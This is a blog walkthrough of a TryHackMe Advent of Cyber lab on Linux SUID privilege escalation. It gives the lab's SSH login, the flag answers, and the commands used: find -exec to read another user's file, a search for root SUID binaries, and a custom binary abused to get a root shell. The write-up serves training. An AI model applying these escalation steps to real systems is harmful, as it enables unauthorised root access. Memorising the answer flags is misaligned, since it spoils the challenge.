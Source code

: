 ```yaml
---
title: "Advent of Cyber Day 8 SUID Shenanigans"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 8 SUID Shenanigans"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

Deploy and SSH into the machine.

Username: holly

Password: tuD@4vt0G\*TU

SSH is not running on the standard port.. You might need to nmap scan the machine to find which port SSH is running on.nmap <machine_ip> -p <start_port>-<end_port>

Read the supporting materials [here](https://blog.tryhackme.com/linux-privilege-escalation-suid/).

### **#1 What port is SSH running on?**

```bash
65534
```

### **#2 Find and run a file as igor. Read the file /home/igor/flag1.txt**

```bash
find /home/igor/flag1.txt -exec cat /home/igor/flag1.txt \;
"THM{d3f0708bdd9accda7f937d013eaf2cd8}"
```

### **#3 Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?**

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
$> system-control

===== System Control Binary =====

Enter system command: "/bin/bash"
root@ip-10-10-63-205:~ cat /root/flag2.txt
"THM{8c8211826239d849fa8d6df03749c3a2}"
```

### **#4 If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: [https://tryhackme.com/room/privescplayground](https://tryhackme.com/room/privescplayground)**

```bash
No questions
```
